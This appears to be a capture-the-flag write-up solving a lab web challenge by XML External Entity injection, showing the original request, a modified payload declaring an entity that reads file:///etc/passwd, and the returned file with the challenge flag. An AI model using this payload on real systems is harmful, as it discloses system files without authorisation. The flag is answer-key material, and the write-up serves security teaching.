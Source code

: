 # SOAP
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? (100 Points)

## Solution
The tag 'xxe' of the challenge gives a hint on what we have to look for.

Opening the page we can click several button that will show different information. In ZAP we can see that there is a POST call with XML as payload: `<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>`

XXE (XML\_External\_Entity) attacks the application that parses the XML code. If the parser isnt well configured we can abuse it and access over the XML payload local files.

Manipulating the Request
```
<?xml version="1.0" encoding="UTF-8"?><data><ID>3</ID></data>
```
to
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
gives the /etc/passwd back. Included in here is the flag:
```
[...]
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

## Further reading
<https://portswigger.net/web-security/xxe>
<https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing>
